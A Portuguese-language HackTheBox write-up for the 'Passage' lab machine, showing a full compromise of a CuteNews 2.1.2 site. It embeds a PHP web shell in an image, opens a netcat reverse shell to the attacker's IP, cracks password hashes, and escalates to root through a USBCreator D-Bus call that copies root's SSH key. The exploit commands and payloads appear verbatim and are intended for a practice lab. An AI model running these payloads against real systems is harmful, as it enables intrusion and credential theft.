 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Passage - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/9iTXQiJ.png)

Machine Maker: [ChefByzen](https://www.hackthebox.eu/home/users/profile/140851)


• Nessa máquina vamos utilizar a falha [Arbitrary File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload) utilizando uma técnica de enviar uma imagem com um código PHP dentro dela através da ediçaõ da requisição e assim nos possibilitando a execução de código remoto.


**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
exiftool
john the ripper
BurpSuite
netcat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


nmap -v -sS -Pn -A passage.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/6%OT=22%CT=1%CU=37302%PV=Y%DS=2%DC=T%G=Y%TM=5FF5BCD0
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=10A%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)SEQ(
OS:SP=10A%GCD=2%ISR=10C%TI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3
OS:=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=7
OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 14.778 days (since Tue Dec 22 13:56:06 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=266 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   188.90 ms 10.10.14.1
2   189.09 ms passage.htb (10.10.10.206)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos ver duas portas abertas, a 22(SSH) e a 80(HTTP).

Ao acessar a porta 80, nos deparamos com um website.
![Image](https://i.imgur.com/grJc9Zf.png)


Ao analisar o código fonte, podemos perceber que o site está utilizando um CMS(Sistema de gerenciamento de conteúdo) chamado 'CuteNews'.
![Image](https://i.imgur.com/ETMGKo8.png)


Acessando o diretório do CMS, encontramos uma página de login e a versão do CuteNews(2.1.2)
![Image](https://i.imgur.com/E6Wa1kL.png)


Como não temos credenciais válidas, vamos tentar realizar a criação de um novo usuário pelo botão de 'Register'
![Image](https://i.imgur.com/ipJ8Q6W.png)


Após conseguirmos o acesso inicial no CMS, podemos encontrar um campo de Upload de avatar na página de edição do perfil do usuário, portanto, podemos tentar fazer o upload de um arquivo malicioso. (:
![Image](https://i.imgur.com/crQgsxz.png)


Tentamos primeiro fazer upload de arquivos em PHP, porém, não foi possivel subir um arquivo com esta extensão...
Como é um campo de upload de 'Avatar' podemos deduzir que o campo aceitará imagens, então, vamos inserir um código malicioso dentro de nossa imagem. 
Para isso vamos utilizar o exiftool:

![Image](https://i.imgur.com/yECy7Qo.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' chu.jpeg;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos conferir que conseguimos escrever o comentário dentro da imagem:
![Image](https://i.imgur.com/hHNNM0w.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
exiftool chu.jpeg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora vamos tentar fazer o upload.
Primeiro vamos ligar o BurpSuite(proxy) para interceptar a requisição e edita-la.
![Image](https://i.imgur.com/SsZQS3v.png)

No burp podemos ver a extensão que está sendo enviada (.jpeg)
![Image](https://i.imgur.com/O2QrZkx.png)

Vamos altera-la para .php e encaminhar a requisição
![Image](https://i.imgur.com/gO1W4Nl.png)

Podemos perceber que a requisição foi bem sucedida(200)

![Image](https://i.imgur.com/0CZunKi.png)

Agora basta acessarmos nosso arquivo para poder executar comandos no servidor, para isso vamos até o diretório de arquivos: http://passage.htb/CuteNews/uploads/avatar_chu_chu.php 
![Image](https://i.imgur.com/AXunvx1.png)

Conseguimos acessar nosso arquivo, agora podemos passar comandos pelo parametro pré definido, em meu caso 'cmd'.
Com isso temos uma execução de código remoto :D
![Image](https://i.imgur.com/RU7sxGJ.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://passage.htb/CuteNews/uploads/avatar_chu_chu.php?cmd=id
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao pesquisar pelo nc, podemos ver que ele está instalado, portanto, vamos tentar utiliza-lo para receber uma reverse shell.
![Image](https://i.imgur.com/5NgSWmB.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://passage.htb/CuteNews/uploads/avatar_chu_chu.php?cmd=whereis nc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos abrir uma porta em nossa máquina.

![Image](https://i.imgur.com/55Noqa6.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvnlp 1337
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora vamos enviar a conexão com o netcat
![Image](https://i.imgur.com/IrydT8Z.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://passage.htb/CuteNews/uploads/avatar_chu_chu.php?cmd=/bin/nc 10.10.14.238 1337 -e /bin/bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Image](https://i.imgur.com/FswUPdW.png)

w00t, estamos dentro!

Podemos melhorar nossa shell com python para ela se tornar interativa
![Image](https://i.imgur.com/KnYikce.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após um tempo procurando algo para escalar privilégios, podemos encontrar um arquivo chamado lines, no diretório: /var/www/html/CuteNews/cdata/users/lines
![Image](https://i.imgur.com/sxqmNKL.png)

Podemos perceber que está em base64, portanto vamos decodar. Para isso vamos utilizar o site [CyberChef](https://gchq.github.io/CyberChef/)

Após isso, temos uma saída mais limpa contendo algumas hashs:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598834079";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_spwvgujw.php";s:6:"e-hide";s:0:"";}}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

hashs:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nadav:7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
sid:4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
paul:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd >> cracked: atlanta1
kim:f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
egre55:4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc >> cracked: egre55
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Usando o site [Crackstation](https://crackstation.net/) tivemos sucesso quebrando 2 senhas.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
paul:atlanta1
egre55:egre55
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Listando a pasta /home podemos perceber que paul é um usuário válido, então tentamos acessa-lá:
E conseguimos!

![Image](https://i.imgur.com/ydajewv.png)


Após isso podemos encontrar chaves RSA para fazermos a conexão via SSH
![Image](https://i.imgur.com/7DgpU4z.png)


Agora podemos nos conectar via ssh :D
![Image](https://i.imgur.com/GSIodbP.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh paul@passage.htb -i id_rsa_paul
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após melhorar nossa conexão usando o SSH, analisando melhor a pasta /home/paul/.ssh/ podemor perceber que existe um arquivo de autorização (authorized_keys)...
dentro dele temos uma chave pública.
![Image](https://i.imgur.com/YrgxUDa.png)


Então agora logamos como 'nadav'

![Image](https://i.imgur.com/G7Ko2Uy.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh nadav@passage
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora logados como 'nadav', começamos a procurar um maneira de escalar privilégios.
![Image](https://i.imgur.com/n3aPLv7.png)

Ao analisar os processos rodando como root, pude perceber que existe um processo chamado: 'usb-creator-helper'
![Image](https://i.imgur.com/RxRhFul.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ps aux | grep root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

O [Artigo](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) nos da uma boa pista(até o nome do user \o/)

Com isso, podemos obter a chave RSA do root.
![Image](https://i.imgur.com/RsLZba2.png)
Podemos perceber que o arquivo é criado como root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/chu/chu.txt true
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora basta logarmos usando a chave
![Image](https://i.imgur.com/9UCzj7K.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ssh root@passage.htb -i id_rsa_root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


My references:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://www.exploit-db.com/exploits/48458
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
